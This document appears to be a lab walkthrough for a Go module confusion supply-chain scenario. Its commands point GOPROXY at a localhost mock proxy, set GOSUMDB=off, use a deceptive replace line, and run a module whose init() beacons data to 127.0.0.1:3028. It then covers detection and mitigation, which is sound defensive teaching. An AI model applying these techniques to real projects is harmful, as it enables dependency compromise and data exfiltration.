



# 🚀 Zero to Hero: Scenario 28 - Go Module Confusion

Welcome! This guide will take you from zero knowledge to successfully completing the Go Module Confusion scenario. We'll go step by step, explaining everything along the way.

## 📚 What You'll Learn

By the end of this guide, you will:
- Explain GOPROXY, `GOSUMDB=off`, and a sneaky `replace` as three knobs
- `go run` against the mock proxy, or `goproxy-client.js` if Go is missing
- Capture the `init()` beacon on `:3028`
- Detect, investigate, and keep golang out of `install.sh`

- Apply the **Mitigation Playbook** from this guide and the scenario README

---

## Table of Contents

<div class="doc-toc">

- [Part 1: Understanding Go Module Confusion (15 minutes)](#part-1-understanding-go-module-confusion-15-minutes)
- [Part 2: Prerequisites Check (5 minutes)](#part-2-prerequisites-check-5-minutes)
- [Part 3: Setting Up Scenario 28 (15 minutes)](#part-3-setting-up-scenario-28-15-minutes)
- [Part 4: Understanding GOPROXY, Sumdb, and Replace (20 minutes)](#part-4-understanding-goproxy-sumdb-and-replace-20-minutes)
- [Part 5: The Attack - GOPROXY plus GOSUMDB=off (30 minutes)](#part-5-the-attack---goproxy-plus-gosumdboff-30-minutes)
- [Part 6: Detection Methods (40 minutes)](#part-6-detection-methods-40-minutes)
- [Part 7: Forensic Investigation (30 minutes)](#part-7-forensic-investigation-30-minutes)
- [Part 8: Incident Response & Mitigation (30 minutes)](#part-8-incident-response--mitigation-30-minutes)
- [Mitigation Playbook](#mitigation-playbook)
- [Code-level workflow](#code-level-workflow)
- [Elasticsearch + Kibana observability (optional)](#elasticsearch--kibana-observability-optional)
- [Part 9: Key Takeaways](#part-9-key-takeaways)
- [Part 10: Advanced Exercises](#part-10-advanced-exercises)
- [📚 Additional Resources](#📚-additional-resources)
- [⚠️ Safety & Ethics](#⚠️-safety--ethics)
- [🎉 Congratulations!](#🎉-congratulations)

</div>

---
## Part 1: Understanding Go Module Confusion (15 minutes)

### What Is Go Module Confusion?

Almost every lab here is npm or PyPI. This one is Go. Three knobs:

1. `GOPROXY=http://127.0.0.1:3028` so `go run` fetches the bad zip
2. `GOSUMDB=off` is the self-own for the attack demo. Leave sumdb on as the mitigation
3. `go.mod.replace-trap` has a `replace` that looks like a local pin

Payload: `init()` in `attacker-module/widget.go` POSTs to `http://127.0.0.1:3028/collect` when `TESTBENCH_MODE=enabled`. No `evil.com`.

### Why Proxy, Sumdb, and Replace Are Separate Trust Boundaries

1. **02** is npm/PyPI name confusion
2. **11** is a poisoned mirror
3. **28** is the Go equivalents. Do not mash them into "Go is confusing"
4. The mock does not speak a real checksum database. The README is honest
5. `./install.sh` does not apt-get golang. Do not "fix" that

### Visual Example: This Lab's Module Trees

```
28-go-module-confusion/
├── attacker-module/widget.go
├── victim-module/go.mod
├── victim-module/go.mod.replace-trap
├── infrastructure/goproxy-client.js
├── infrastructure/pack-module.py
└── infrastructure/mock-server.js    # GOPROXY + collect on 3028
```

### How the Attack Works

```
setup.sh zips attacker-module into the GOPROXY store (Python, no Go required)
        ↓
Mock listens on 3028
        ↓
GOPROXY=... GOSUMDB=off go run
        ↓
init() POSTs marker when the gate is on
```

### Why This Is Risky

1. Unknown GOPROXY host
2. `GOSUMDB=off` as a convenience flag
3. `replace` lines that bypass the proxy's view
4. Workshops that apt-get a toolchain into the global installer

### Real-World Examples

Point GOPROXY at a proxy you run. Keep sumdb on. Review every `replace`. Diff `go.sum` after bumps.

Related: [02](./ZERO_TO_HERO_SCENARIO_02.md), [11](./ZERO_TO_HERO_SCENARIO_11.md).

## Part 2: Prerequisites Check (5 minutes)

```bash
source .scas.env
echo $TESTBENCH_MODE
go version || echo "no Go; use goproxy-client.js"
./scripts/setup/kill-port.sh 3028
```

Python 3 packs the zip. Go is only for `go run`. Docker labs use a Go image.

---

## Part 3: Setting Up Scenario 28 (15 minutes)

### Step 1: Navigate to Scenario Directory

```bash
cd scenarios/28-go-module-confusion
ls -la
```

### Step 2: Run the Setup Script

```bash
export TESTBENCH_MODE=enabled
./setup.sh
```

Zips the attacker module. Go not required for this step. Store under `infrastructure/goproxy-store/` is gitignored.

### Step 3: Understand the Environment

```bash
diff -u victim-module/go.mod victim-module/go.mod.replace-trap || true
ls -la infrastructure/goproxy-store 2>/dev/null || echo "store missing; rerun ./setup.sh"
```

---

## Part 4: Understanding GOPROXY, Sumdb, and Replace (20 minutes)

### Step 1: Examine widget.go

```bash
grep -n "127.0.0.1\|TESTBENCH_MODE" attacker-module/widget.go
```

`func init()`. Localhost POST. Public hostname would be a safety bug.

### Step 2: Examine go.mod vs replace-trap

People paste `replace example.com/corp/widget => ../attacker-module` to pin a fork and forget they bypassed the proxy.

### Step 3: Examine the Node Client

Smoke CI uses `goproxy-client.js` so laptops without a toolchain still POST.

### Step 4: Remember the Three Knobs

Proxy host. Checksum DB. Replace line. Teach them apart.

---

## Part 5: The Attack - GOPROXY plus GOSUMDB=off (30 minutes)

### Step 1: Understand the Attack Timeline

Mock (GOPROXY) up -> go run or client -> curl.

### Step 2: Start the Mock Attacker Server

Terminal A:

```bash
cd scenarios/28-go-module-confusion
export TESTBENCH_MODE=enabled
node infrastructure/mock-server.js
```

The mock is also the GOPROXY on 3028.

### Step 3: Happy Path with Go

Terminal B:

```bash
cd scenarios/28-go-module-confusion/victim-module
export TESTBENCH_MODE=enabled
GOPROXY=http://127.0.0.1:3028,off GOSUMDB=off GONOSUMDB='*' go run -mod=mod .
```

If `go run` complains about sumdb, you left `GOSUMDB` on, which is actually the mitigation. For the attack demo we turn it off on purpose.

`go: no Go files` means you are not in `victim-module`.

### Step 4: Without Go

```bash
cd scenarios/28-go-module-confusion
export TESTBENCH_MODE=enabled
node infrastructure/goproxy-client.js
```

### Step 5: Observe the Capture

```bash
curl -s http://127.0.0.1:3028/captured-data
curl -s http://127.0.0.1:3028/captured-data | python3 -m json.tool | head -30
```

### Step 6: Prove the Gate

```bash
unset TESTBENCH_MODE
node infrastructure/goproxy-client.js
curl -s http://127.0.0.1:3028/captured-data
```

No new POST. Re-enable the gate.

---

## Part 6: Detection Methods (40 minutes)

### Detection Method 1: Capture Correlation

```bash
curl -s http://127.0.0.1:3028/captured-data
```

### Detection Method 2: Payload Grep

```bash
grep -n "127.0.0.1\|TESTBENCH_MODE" attacker-module/widget.go
```

### Detection Method 3: Replace Diff

```bash
diff -u victim-module/go.mod victim-module/go.mod.replace-trap
```

### Detection Method 4: Env Knobs

`GOPROXY` and `GOSUMDB` in the shell history of the demo. Treat `GOSUMDB=off` as an incident.

### Detection Method 5: Floci GOPROXY

```bash
export SCAS_FLOCI_ENABLED=1
./infrastructure/floci/seed.sh
../../detection-tools/floci/cloud-context.sh 28
```

SSM `/scas/sc28/goproxy` should match `http://127.0.0.1:3028,off`.

### Detection Method 6: Sigma / IOCs (from DETECT.md)

[DETECT.md](../../../scenarios/28-go-module-confusion/DETECT.md): GOPROXY on 3028, `GOSUMDB=off`, replace line, POST from `init()`.

---

## Part 7: Forensic Investigation (30 minutes)

### Investigation Step 1: Which Knob Fired

Proxy fetch, sumdb off, or replace? Do not write "Go supply chain" and sit down.

### Investigation Step 2: Zip Store

Gitignored store missing after a fresh clone? Rerun `./setup.sh`.

### Investigation Step 3: Timeline Reconstruction

Pack zip -> point GOPROXY -> disable sumdb -> init POST.

### Investigation Step 4: Scope Assessment

Which modules have surprise `replace`? Which builders set `GOSUMDB=off`?

### Investigation Step 5: Compare 02 / 11 / 28

Name confusion vs poisoned mirror vs Go proxy/sumdb/replace.

---

## Part 8: Incident Response & Mitigation (30 minutes)

### Response Step 1: Immediate Containment

Ctrl+C the mock. DELETE captures.

```bash
curl -X DELETE http://127.0.0.1:3028/captured-data
```

### Response Step 2: Restore Sumdb and Proxy

Point GOPROXY at a host you run. Turn sumdb back on. Review `replace`.

### Response Step 3: Validate

Client or `go run` with sumdb on should not be the attack demo; that is the mitigation.

### Response Step 4: Long-term Defenses

Vendor or pin through a verified mirror. Diff `go.sum`. Do not add golang to `install.sh`. I will revert that apt-get PR.

---

## Mitigation Playbook

Canonical prevention and mitigation controls (aligned with the [scenario README](../../../scenarios/28-go-module-confusion/README.md)). Lab walkthroughs above expand each control with hands-on steps.

- Point `GOPROXY` at a proxy you actually run. Do not paste an unknown host.
- Keep `GOSUMDB` on. Treat `GOSUMDB=off` as an incident, not a convenience flag.
- Review every `replace` in `go.mod` like a new dependency.
- Vendor or pin through a verified mirror in CI.
- Diff `go.sum` after every bump and fail the build on surprise hashes.

---
## Code-level workflow



*Code-level workflow for Scenario 28. Editable source: [`scas-codeflow-scenario-28.excalidraw`](../../assets/diagrams/codeflow/excalidraw/scas-codeflow-scenario-28.excalidraw). Regenerate with `node scripts/diagrams/generate-scenario-codeflow-diagrams.js`.*

---

## Elasticsearch + Kibana observability (optional)

Scenario **28 - Go module confusion** is indexed in Elasticsearch when the observability stack is running.

Go module confusion: mock GOPROXY serves example.com/corp/widget; init() posts to :3028. GOSUMDB=off is the self-own.

- **Detection runbook (static)** → index `scas-rules`, document id `28` - IOCs, Sigma, YARA, sample logs from `DETECT.md`
- **Runtime captures (dynamic)** → index `scas-detections` - one document per exfil event when `SCAS_ES_URL` is set before starting the mock collector

### How to read this diagram

| Phase | What you should look for |
|-------|--------------------------|
| **1 - Collectors** | Terminal A starts the mock server (or harvester). Set `SCAS_ES_URL` here if you want live Elasticsearch indexing. |
| **2 - Lab execution** | Terminal B runs the scenario README steps. See the **sequence diagram** and **Scenario-specific attack steps** below. |
| **3 - Exfiltration** | Malicious sample sends **localhost-only** JSON to the mock endpoint. Evidence is always written to `infrastructure/` on disk. |
| **4 - Elasticsearch** | When `SCAS_ES_URL` is set, the same capture is indexed into `scas-detections` with `scenario_id` and `event_type=exfil_capture`. |
| **5 - Kibana** | Use the per-scenario saved searches to compare **runtime captures** (Detections) with the **static runbook** (Rules). |

> **Safety:** All network calls stay on `127.0.0.1`. Malicious logic runs only when `TESTBENCH_MODE=enabled`.

### End-to-end flow



*Swimlane diagram for Scenario 28. Editable source: [`scas-observability-scenario-28.excalidraw`](../../assets/diagrams/observability/excalidraw/scas-observability-scenario-28.excalidraw). Regenerate with `node scripts/diagrams/generate-scenario-observability-diagrams.js`.*

### Sequence diagram (Phase 1-5)

Same flow as a participant sequence (expandable in the docs hub).



### Scenario-specific attack steps (Phase 2)

Same Phase-2 path as the diagrams above (for skimming / accessibility).

| # | From | To | Action |
|---|------|----|--------|
| 1 | Learner | Mock | GOPROXY=http://127.0.0.1:3028 GOSUMDB=off |
| 2 | Learner | Victim | go run . in victim-module |
| 3 | Victim | MalPkg | init() in widget.go |
| 4 | MalPkg | Mock | POST 127.0.0.1:3028/collect |

### Prerequisites

From the repository root:

```bash
./scripts/observability/elasticsearch-up.sh
./scripts/observability/setup-kibana-data-views.sh   # data views + saved searches for all 29 scenarios
```

### Run this scenario with live Elasticsearch forwarding

**Terminal A - mock collector** (from `scenarios/28-go-module-confusion`):

```bash
cd scenarios/28-go-module-confusion
export TESTBENCH_MODE=enabled
export SCAS_ES_URL=http://localhost:9200
node infrastructure/mock-server.js
```

**Terminal B - execute the lab:**

```bash
cd scenarios/28-go-module-confusion
export TESTBENCH_MODE=enabled
export SCAS_ES_URL=http://localhost:9200
cd victim-module && GOPROXY=http://127.0.0.1:3028 GOSUMDB=off go run .
```

### Verify locally (file-based evidence)

```bash
curl -s http://127.0.0.1:3028/captured-data
```

### Verify in Elasticsearch (API)

```bash
# Static runbook for this scenario
curl -s "http://localhost:9200/scas-rules/_doc/28?pretty"

# Latest runtime capture events
curl -s "http://localhost:9200/scas-detections/_search?pretty" \
  -H 'Content-Type: application/json' \
  -d '{
    "query": { "term": { "scenario_id": "28" } },
    "sort": [{ "@timestamp": "desc" }],
    "size": 5
  }'
```

### Verify in Kibana (UI)

1. Open [http://localhost:5601](http://localhost:5601)
2. **Discover** → **SCAS Detections - Scenario 28** - live capture timeline (`@timestamp`, `package.name`, `detail`)
3. **Discover** → **SCAS Rules - Scenario 28** - compare against `iocs`, `sigma`, and `yara` fields
4. Ask: *Does each capture field match an IOC or Sigma condition in the runbook?*

See [observability/README.md](../../../observability/README.md) for stack details.

## Part 9: Key Takeaways

### Why Go Module Confusion Is Dangerous

1. Unknown GOPROXY
2. `GOSUMDB=off` as a habit
3. Sneaky `replace`
4. "Just install Go" PRs against the installer

### Best Practices

1. GOPROXY you operate
2. Sumdb on
3. Review every `replace`
4. `go.sum` diffs in CI
5. Node client for smoke; `go run` for teaching

### Real-World Impact

- Module fetched from a host nobody named
- Checksums skipped
- Fork pin that is actually an attacker path

---

## Part 10: Advanced Exercises

### Exercise 1: Explain `,off`

What does `GOPROXY=http://127.0.0.1:3028,off` mean, including the `,off`?

### Exercise 2: Replace Ticket

One paragraph: why `replace` is a new dependency review.

### Exercise 3: No-Go Path

Run only `goproxy-client.js`. Write what smoke still proves and what it does not.

### Exercise 4: Floci SSM

Dump `/scas/sc28/goproxy` after seed.

---

## 📚 Additional Resources

- Scenario README: `scenarios/28-go-module-confusion/README.md`
- DETECT.md and FLOCI.md in that folder
- [02](./ZERO_TO_HERO_SCENARIO_02.md) · [11](./ZERO_TO_HERO_SCENARIO_11.md)

---

## ⚠️ Safety & Ethics

**IMPORTANT**: This scenario is for **educational purposes only**.

- Use ONLY in isolated test environments
- Do not apt-get golang from `install.sh`
- All malicious code requires `TESTBENCH_MODE=enabled`
- Exfiltration targets `127.0.0.1:3028` only
- Rerun `./setup.sh` if the zip store vanished

---

## 🎉 Congratulations!

You've completed the Go Module Confusion scenario! You now understand:
- GOPROXY vs sumdb vs replace
- How to capture `init()` on localhost
- How to detect and keep the installer unchanged

**Remember**: three knobs. Name them.

Happy Learning!
